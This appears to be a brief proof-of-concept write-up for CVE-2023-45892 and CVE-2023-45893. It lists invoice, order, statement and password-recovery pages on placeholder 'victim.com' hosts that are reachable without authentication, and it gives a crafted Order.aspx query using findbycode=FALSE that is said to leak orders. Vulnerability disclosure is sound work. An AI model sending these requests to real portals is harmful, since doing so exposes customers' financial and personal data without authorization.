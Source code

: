 ## Insights PoC - CVE-2023-45892

Invoices and Orders are accessible unauthenticated

https://insight.victim.com/invoice.aspx?id=1
https://insight.victim.com/order.aspx?id=1

## Customer Portal PoC - CVE-2023-45893

The following are accessible unauthenticated

* https://customerportal.victim.com/order.aspx
* https://customerportal.victim.com/ratings.aspx
* https://customerportal.victim.com/invoice.aspx
* https://customerportal.victim.com/passwordrecovery.aspx
* https://customerportal.victim.com/statement.aspx
* https://customerportal.victim.com/order.aspx
* https://customerportal.victim.comm/ratings.aspx
* https://customerportal.victim.com/invoice.aspx
* https://customerportal.victim.com/passwordrecovery.aspx
* https://customerportal.victim.com/statement.aspx

To leak orders, for example, you may need to play with the parameters. replace CITYNAME with the server it's hosted in; if you know. findbycode=false is the the thing allows orders to be leaked here.

`Order.aspx?Id=1&lserver=<CITYNAME>&findbycode=FALSE&pcode=37374&pname=USERNAME`
